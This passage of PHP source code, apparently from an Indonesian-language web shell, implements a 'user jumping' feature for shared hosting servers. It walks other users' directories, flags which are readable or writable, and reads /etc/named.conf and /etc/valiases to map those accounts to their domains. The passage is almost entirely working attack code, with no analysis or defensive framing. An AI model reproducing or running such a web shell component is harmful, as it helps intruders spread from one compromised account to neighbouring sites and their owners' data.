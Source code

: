                         $jrw = "[<font color=green>R</font>] <a href='?dir=$user_jumping_dir'><font color=#0046FF>$user_jumping_dir</font></a>";
                        if(is_writable($user_jumping_dir)) {
                            $jrw = "[<font color=green>RW</font>] <a href='?dir=$user_jumping_dir'><font color=#0046FF>$user_jumping_dir</font></a>";
                        }
                        echo $jrw;
                        if(function_exists('posix_getpwuid')) {
                            $domain_jump = file_get_contents("/etc/named.conf");
                            if($domain_jump == '') {
                                echo " => ( <font color=red>gabisa ambil nama domain nya</font> )<br>";
                            } else {
                                preg_match_all("#/var/named/(.*?).db#", $domain_jump, $domains_jump);
                                foreach($domains_jump[1] as $dj) {
                                    $user_jumping_url = posix_getpwuid(@fileowner("/etc/valiases/$dj"));
                                    $user_jumping_url = $user_jumping_url['name'];
                                    if($user_jumping_url == $user_pro_jump) {
                                        echo " => ( <u>$dj</u> )<br>";
                                        break;
                                    }
                                }
                            }
                        } else {
                            echo "<br>";
                        }
                    }
                }
            }
        }
        if($i == 0) {
        } else {
            echo "<br>Total ada ".$i." Kamar di ".$ip;
        }
        echo "</pre>";
    }
    echo "</div>";
}
 
?>
